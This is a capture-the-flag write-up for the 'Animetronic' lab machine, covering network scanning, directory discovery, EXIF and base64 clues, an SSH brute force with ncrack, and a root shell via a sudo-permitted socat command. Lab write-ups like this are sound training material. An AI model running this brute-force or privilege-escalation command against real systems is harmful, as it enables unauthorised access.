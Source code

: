 ```yaml
---
title: Animetronic-Writeup
date: 2024-03-23
categories:
  - Writeups
tags:
  - Linux
  - Enumeration
  - PrivEsc
---
```

# Arp-scan 

 Detecting the ip of the machine

```bash
192.168.1.76 08:00:27:06:e0:17 PCS Systemtechnik GmbH
```


# Ports

Starting with port scanning by using nmap

```bash
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 

|   256 59:eb:51:67:e5:6a:9e:c1:4c:4e:c5:da:cd:ab:4c:eb (ECDSA)

|_  256 96:da:61:17:e2:23:ca:70:19:b5:3f:53:b5:5a:02:59 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Animetronic

|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 08:00:27:06:E0:17 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  
TRACEROUTE

HOP RTT      ADDRESS

1   17.72 ms animetronic (192.168.1.76)
```


# Url Enumeration

Use Dirsearch for directory discovery

```shell
dirsearch -u http://192.168.1.76 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
# result -> /staffpages/new_employees
```

(note that the default dictionary might not work)

## Exif 

As we access the directory, we can see nothing but a picture.

Download it and check the exif data of it:
```shell
root@kali ~/Downloads [1]# exiftool new_employees.jpeg
ExifTool Version Number         : 12.67
File Name                       : new_employees.jpeg
Directory                       : .
File Size                       : 160 kB
File Modification Date/Time     : 2024:03:22 12:54:39-04:00
File Access Date/Time           : 2024:03:22 12:55:22-04:00
File Inode Change Date/Time     : 2024:03:22 12:54:39-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : page for you michael : ya/HnXNzyZDGg8ed4oC+yZ9vybnigL7Jr8SxyZTJpcmQx53Xnwo=
Image Width                     : 703
Image Height                    : 1136
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 703x1136
Megapixels                      : 0.799
```

 Decoding:

```bash
echo "ya/HnXNzyZDGg8ed4oC+yZ9vybnigL7Jr8SxyZTJpcmQx53Xnwo=" | base64 -d
```

Result :

```shell
ɯǝssɐƃǝ‾ɟoɹ‾ɯıɔɥɐǝן # message_for_michael
```

Then we can do a smart assumption that this might be a directory.

By accessing it:

![](/assets/img/animetronic/Note_img.png)

Then:

![](/assets/img/animetronic/personal_info.png)


We can make another guess that this might be for ssh. Hence what we need to do now is to use cupp to create a dictionary, then we can consider using ncrack to get the ssh user and password.

ssh user & password:

```
ncrack -v -u michael -P michael.txt -T5 ssh://192.168.1.76 -f
```

Result:

```shell
192.168.1.76 22/tcp ssh: 'michael' 'leahcim1996'
```

## SSH

As we login into via ssh, we are able to see a file "Note.txt"

```shell
michael@animetronic:/home/henry$ cat Note.txt 
if you need my account to do anything on the server,
you will find my password in file named

aGVucnlwYXNzd29yZC50eHQK
```

By decoding it, it is "henrypassword.txt".

```shell
find / -name henrypassword.txt
```

Result:

```shell
/home/henry/.new_folder/dir289/dir26/dir10/henrypassword.txt
```

Then we are able to get the password of user henry:

```shell
michael@animetronic:/home/henry$ cat /home/henry/.new_folder/dir289/dir26/dir10/henrypassword.txt
IHateWilliam
```

Login into user henry:

```shell
henry@animetronic:~$ sudo -l
Matching Defaults entries for henry on animetronic:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User henry may run the following commands on animetronic:
    (root) NOPASSWD: /usr/bin/socat
```

## Privilege Escalation

```shell
sudo socat stdin exec:/bin/bash
```

